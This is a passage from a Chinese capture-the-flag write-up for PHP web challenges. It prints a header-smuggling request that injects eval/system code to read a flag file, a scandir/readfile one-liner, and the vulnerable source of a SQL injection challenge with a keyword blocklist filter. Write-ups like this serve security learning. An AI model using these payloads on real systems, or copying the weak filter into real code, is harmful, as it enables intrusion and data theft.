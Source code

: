 应该是提交了什么把服务器崩溃掉了

后来询问了一位国外的师傅和我说

因为字符串中 浏览器会往后面添加一些非php代码的东西 因此eval会崩溃掉

他给出的解法是

我又创建了两个自定义标头，其中第一个位于所有标头之上，并且以php comment / *和我包含的最后一个标头具有php comment的结尾。然后我更改了有效负载以在start处关闭打开的注释，并在end处关闭，因此最终请求变成这样

```
GET /?roll=(eval(implode(getallheaders()))) HTTP/1.1
xyz: /*test
Host: 192.46.227.32
User-Agent: */ eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'));/*
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
abc: tses*/
```

但我复现时候并没有成功 可能是后来的环境不同的原因，先积累一下

### 2.Second Solution

利用getcwd函数或者是`_DIR_`魔法常量获取当前工作目录

![image-20210110110242045](/Users/miewang/Library/Application Support/typora-user-images/image-20210110110242045.png)

常规思路 将数组逆置 指针next读取我们需要的flag.php

Readfile(next(array_reverse(scandir(getcwd()))))

![image-20210110110649870](/Users/miewang/Library/Application Support/typora-user-images/image-20210110110649870.png)

get flag

## 3.mysqlimit

```php
<?php 

include('dbconnect.php');

if(!isset($_GET["id"]))
{
  show_source(__FILE__);
}
else
{
  // filter all what i found on internet.... dunno why ｡ﾟ･（>﹏<）･ﾟ｡
  if (preg_match('/union|and|or|on|cast|sys|inno|mid|substr|pad|space|if|case|exp|like|sound|produce|extract|xml|between|count|column|sleep|benchmark|\<|\>|\=/is' , $_GET['id'])) 
  {
    die('<img src="https://i.imgur.com/C42ET4u.gif" />'); 
  }
  else
  {
    // prevent sql injection
    $id = mysqli_real_escape_string($conn, $_GET["id"]);
    $query = "select * from flag_here_hihi where id=".$id;
   $run_query = mysqli_query($conn,$query);

```